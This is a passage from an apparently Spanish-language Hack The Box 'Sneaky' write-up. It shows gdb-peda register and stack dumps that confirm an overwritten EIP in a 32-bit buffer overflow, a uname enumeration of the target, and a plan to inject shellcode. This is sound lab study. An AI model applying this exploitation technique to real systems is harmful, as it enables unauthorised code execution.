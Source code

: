 ```bash
ESI: 0xf7fa9000 --> 0x1e4d6c 
EDI: 0xf7fa9000 --> 0x1e4d6c "
EBP: 0x41414141 ('AAAA')"
ESP: 0xffffd3a0 --> 0x0 "
EIP: 0x42424242 ('BBBB')    "
EFLAGS: 0x10202 (carry parity adjust zero sign trap INTERRUPT direction overflow)

[-------------------------------------code-------------------------------------]
Invalid $PC address: 0x42424242

[------------------------------------stack-------------------------------------]
0000| 0xffffd3a0 --> 0x0 
0004| 0xffffd3a4 --> 0xffffd444 --> 0xffffd596 ("/home/pro/Escritorio/HTB/Sneaky/exploits/chall")
0008| 0xffffd3a8 --> 0xffffd450 --> 0xffffd734 ("COLORTERM=truecolor")
0012| 0xffffd3ac --> 0xffffd3d4 --> 0x0 
0016| 0xffffd3b0 --> 0xffffd3e4 --> 0xbaa14230 
0020| 0xffffd3b4 --> 0xf7ffdb40 --> 0xf7ffdae0 --> 0xf7fca3e0 --> 0xf7ffd980 --> 0x0 
0024| 0xffffd3b8 --> 0xf7fca410 --> 0x804825e ("GLIBC_2.0")
0028| 0xffffd3bc --> 0xf7fa9000 --> 0x1e4d6c 
[------------------------------------------------------------------------------]

Legend: code, data, rodata, value
Stopped reason: SIGSEGV
"0x42424242" in ?? ()
```
Perfecto como se aprecia Ya tenemos el `EBP` sobrescrito con `AAAA`, pero controlamos el `EIP` con nuestras `BBBB`

Usamos : “ i r ”
Para obtener informacion de los registros:
```bash
gdb-peda$ i r
eax            0x0                 0x0
ecx            0xffffd730          0xffffd730
edx            0xffffd39d          0xffffd39d
ebx            0x0                 0x0
esp            0xffffd3a0          0xffffd3a0
"ebp            0x41414141          0x41414141" AAAA
esi            0xf7fa9000          0xf7fa9000
edi            0xf7fa9000          0xf7fa9000
"eip            0x42424242          0x42424242" BBBB
eflags         0x10202             [ IF RF ]
cs             0x23                0x23
ss             0x2b                0x2b
ds             0x2b                0x2b
es             0x2b                0x2b
fs             0x0                 0x0
gs             0x63                0x63
```
AQUI YA TENEMOS EL CONTROL DEL EIP 
Enumeramos el sistema
```bash
thrasivoulos@Sneaky:/$ uname -a
Linux Sneaky 4.4.0-75-generic #96~14.04.1-Ubuntu SMP Thu Apr 20 11:06:56 UTC 2017 i686 athlon i686 GNU/Linux
```
AHora vamos a buscar nuestro `shellcode` para que indicandole la direccion en el `EIP` podamos introducir nuestro shellcode como la siguiente intruccion en la pila a ejecutar.
